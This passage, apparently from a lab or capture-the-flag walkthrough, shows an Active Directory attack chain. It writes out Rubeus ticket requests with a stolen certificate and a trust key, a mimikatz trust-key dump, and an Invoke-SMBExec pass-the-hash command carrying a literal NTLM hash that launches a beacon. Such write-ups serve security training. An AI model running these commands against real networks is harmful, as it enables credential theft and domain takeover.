 Then we upload it to machine and register `Rubeus` to get a ticket and NTLM

![](20.png)

Let's request the ticket
```
Rubeus.exe asktgt /user:Administrator /certificate:c:\temp\cert.pfx /ptt /nowrap /getcredentials
```

![](21.png)

Now we can spawn another beacon using [Invoke-SmbExec](https://github.com/Kevin-Robertson/Invoke-TheHash/tree/master) or [SharpSmbExec](https://github.com/Flangvik/SharpCollection)
```
Invoke-SMBExec -Target 127.0.0.1 -Domain mythical-us.vl -Username Administrator -Hash C583EF48C5ED66C727AECB6FAB87AC12 -Command c:\programdata\google\update.exe
```

![](22.png)

![](23.png)

## MYTHICAL-EU
We know that the trust is outbound, we can enumerate `mythical-eu` domain by using the [trust account](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-trust-accountusd-accessing-resources-on-a-trusted-domain-from-a-trusting-domain): `mimikatz "lsadump::trust /patch"`

![](24.png)

To enumerate the domain we can request the ticket. We can either use `ticket_cache_add` where we specify ticket and luid (to find luid run `ticket_cache_list`) or simply run the following command in system beacon
```
Rubeus.exe asktgt /user:mythical-us$ /domain:mythical-eu.vl /rc4:d9ccb26347cce041096ed62bfbeae5d3 /nowrap /ptt
```

![](25.png)

Now we can start enumerating again. Let's start with shares. We have `dev` share which contains `getusers.exe` binary

![](26.png)

![](27.png)

Let's download it and check it
```
└─$ file getusers.exe 
getusers.exe: PE32+ executable (console) x86-64 Mono/.Net assembly, for MS Windows, 2 sections
```

We find creds for `svc_ldap` user
